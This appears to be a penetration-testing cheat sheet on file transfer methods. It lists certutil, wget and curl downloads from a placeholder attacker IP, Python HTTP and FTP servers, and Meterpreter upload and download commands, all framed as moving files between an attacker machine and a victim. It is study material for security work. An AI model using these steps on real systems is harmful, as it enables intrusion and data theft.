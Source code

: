 ### File Transfer Methods
##### Certutil
```powershell
certutil.exe -urlcache -f http://<IP>/<filename> <filename to save>
```

##### HTTP
```bash
# Python2
python -m SimpleHTTPServer 80

# Python3
python3 -m http.server 80
```

##### Browser
If you have RDP session then navigate to the browser and grab the files by hosting a web server with python in the attacker machine

##### FTP
```bash
# In attacker machine
python -m pyftpdlib 21

# In victim machine
ftp <Attacker Ip>
```

##### Linux
```bash
# Using wget
wget http://<IP>/<filename>

# Using curl
curl http://<IP>/<filenamr> -o <filename to be saved>
```

##### Meterpreter
```bash
# Download
download /path to download /path to save

# Upload
upload /path of the file to upload /path to be saved
```

![[Pasted image 20210730085427.png]]
